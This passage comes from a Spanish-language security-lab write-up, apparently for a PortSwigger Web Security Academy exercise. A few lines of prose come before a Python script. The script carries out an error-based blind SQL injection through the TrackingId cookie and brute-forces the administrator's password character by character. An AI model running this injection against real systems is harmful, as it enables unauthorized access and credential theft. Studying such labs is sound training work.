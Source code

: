 - Si en el **Tracking Id** podemos una camilla nos sale un error con el código 500 así que pues bueno va a ser lo mismo pero ahora basándonos en el error pero bueno si es que cambian algunas cosas pero en el siguiente script de **Python3** la inyeccion quedaria lista. 

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a77003e03026052829c9d1f00cf006c.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "TrackingId=RYv84rwBNkKgrR6I'||(select case when substr(password,%d,1)='%s' then to_char(1/0) else '' end from users where username='administrator')||'" % (position, character),
                'session': 'uMuOQ5tR8SukkqghM9kJijQdjAhx55n6'
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if r.status_code == 500: # Codigo de estado
                password += character
                p2.status(password)
                break
if __name__ == '__main__':
    makeRequest()

```
